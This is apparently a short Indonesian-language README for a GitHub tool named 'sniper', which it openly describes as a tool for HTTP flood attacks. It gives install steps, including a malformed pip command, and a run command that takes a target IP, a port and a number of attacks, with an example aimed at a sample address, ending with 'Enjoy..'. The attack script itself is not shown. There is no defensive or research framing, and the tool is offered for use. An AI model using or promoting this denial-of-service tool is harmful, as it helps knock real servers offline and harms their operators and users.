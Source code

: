 # sniper

<b>Apa itu SNIPER?</b>
<br />
Tool untuk melakukan HTTP Flood.
<br />
<br />
<b>INSTALL</b>
<br />
$ git clone https://github.com/wendev89/sniper.git<br />
$ cd sniper<br />
$ pip install requirements.txt<br />

Masalah <b>"pip command not found"</b> itu artinya <b> pip </b> belum diinstall
<br />
$ apt install python-pip
<br />
<br />
<b>RUN</b>
<br />
$ python attack.py <IPTARGET> <PORT> <JUMLAH_SERANGAN>
<br />
<br />
<b>CONTOH</b>
<br />
<br />
$ python attack.py 123.45.67.89 80 3000
<br />
<br />
<b>Enjoy..</b>
